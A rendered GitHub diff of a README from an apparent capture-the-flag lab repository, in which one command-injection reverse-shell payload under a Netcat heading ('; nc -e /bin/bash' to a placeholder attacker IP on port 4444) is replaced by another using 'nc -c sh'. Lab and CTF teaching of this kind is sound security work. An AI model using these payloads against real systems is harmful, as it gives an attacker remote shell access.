

Before and after one commit to zyyuy0u/Physic-Flag-CTF, a Markdown page: README.md, the part around the change. GitHub-like rendering.

Commit message:
🪡 修改 README.md

````diff
--- a/README.md
+++ b/README.md
@@ -171,7 +171,7 @@ curl http://<Pi_IP>:8080/admin
 
    **Netcat**
    ```
-   ; nc -e /bin/bash <攻擊者IP> 4444
+   ; nc -c sh <攻擊者IP> 4444
    ```
 
    **Python3**
````
